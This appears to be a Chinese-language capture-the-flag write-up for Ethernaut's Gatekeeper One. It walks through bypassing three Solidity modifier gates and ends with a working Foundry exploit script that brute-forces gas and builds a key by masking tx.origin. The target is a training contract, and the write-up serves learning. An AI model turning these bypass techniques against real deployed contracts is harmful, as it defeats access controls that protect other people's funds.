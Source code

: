 # Level 13 - Gatekeeper One

## 題目
[Gatekeeper One](https://ethernaut.openzeppelin.com/level/0xb5858B8EDE0030e46C0Ac1aaAedea8Fb71EF423C)

### 通關條件
跨越守衛的守衛並且註冊成為參賽者吧

### 提示
- 回憶一下你在 [Telephone](https://hackmd.io/@D13/ethernaut4) 和 [Token](https://hackmd.io/@D13/ethernaut5) 關卡學到了什麼
- 可以去翻翻 Solidity 文件，更深入的了解一下 `gasleft()` 函式的資訊（參見 [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) 和 [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)）

### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## 筆記
`gasleft()` 用於確認目前剩下的 gas 有多少，透過這個方式紀錄合約會消耗多少 gas，實際用法可以參考 [Solidity Gasleft](https://www.rareskills.io/post/solidity-gasleft)
>[!Tip]
>Gas Fee 就是區塊鏈交易或執行智能合約時要支付的費用；跑合約、交易的手續費。

---

題目要我們成為參賽者，也就是呼叫 24 行的 `enter(bytes8 _gateKey)`，呼叫之前還會先經過 3 個 `modifier`，通過的方法分別是：

### 通過 `gateOne()`
```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```
這條件在 [Telephone](https://hackmd.io/@D13/ethernaut4) 就有實現過，只要寫另一個合約去呼叫關卡合約就可以通過
### 通過 `gateTwo()`
```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```
`gateTwo()` 的條件是必須在 run 到這的時候剩餘的 gas 費用必須要可以被 8191 整除，我們可以透過 for 迴圈不斷測試找到符合的 gas（跑迴圈本身很消耗 gas，建議在本地端跑完後再改用常數呼叫上鏈提交關卡）
### 通過 `gateThree(bytes8 _gateKey)`
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require( `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)`), "GatekeeperOne: invalid gateThree part three");
    _;
}
```
`gateThree(bytes8 _gateKey)` 又分成三個條件，都是要針對 `_gateKey` 做型態轉換後的值進行比較，跟 [Privacy](https://hackmd.io/@D13/ethernaut12) 那題一樣，只是更複雜一點，一條一條查看：
#### `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`
![image](/writeup/img/13_GateThree1.png)
在做 `==` 判斷時，比較小的型態會被轉換成大的，所以右邊的 `_gateKey` 雖然最後是 `uint16` 但因為要比較的關係所以會變成 `uint32`，但他已經失去 2 bytes 的資料，所以它的前方會補 0（詳細變化可以參考上圖右邊綠色方塊）
要達成第一個條件，`_gateKey` 的第 5, 6 byte 一開始就必須為 0，這樣丟失再補回來後也會跟左邊黃框的部分一樣
#### `uint32(uint64(_gateKey)) != uint64(_gateKey)`
![image](/writeup/img/13_GateThree2.png)
第二個條件是要不相等，那透過上圖可以看出來只要 `_gateKey` 的初始值在 1-4 byte 有值就可以達到這個效果，因為左邊黃框部分 `_gateKey` 會被丟棄前 4 個 bytes 後補 0，所以會不一樣。
#### `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)`
![image](/writeup/img/13_GateThree3.png)
第三個條件其實跟第一條很像，就是倒數 3, 4 byte 要是 0 就可以符合，但這邊是用 `tx.origin`，也就是我們的地址。

綜合上面三個條件也就是說 `_gateKey` 要等於 `tx.origin` 且倒數 3, 4 byte 要是 0。這邊只要透過 AND 運算，就像濾波器一樣把不要的部份過濾掉就可以得到符合三個條件的值了：
```solidity
bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF
```
攻擊合約如下（不要忘記確認 gas 的 for 迴圈不要上鏈測試）：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/13_GatekeeperOne.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        GatekeeperOneAttacker attacker = new GatekeeperOneAttacker(your_challenge_address);    
        attacker.attack();

        vm.stopBroadcast();
    }
}

contract GatekeeperOneAttacker {
    GatekeeperOne public level13;

    constructor(address _target) {
        level13 = GatekeeperOne(_target);
    }
    
    function attack() public {
        bytes8 _gateKey =  bytes8(uint64(uint160(tx.origin))) & 0xffffffff0000ffff;
        /* local test
        for (uint256 i = 0; i < 8191; i++) { 
            (bool result,) = address(level13).call{gas:i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
            if (result) {
                console.log(i);
                break;
            }
        }
        */
        address(level13).call{gas:256 + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
    }
}
```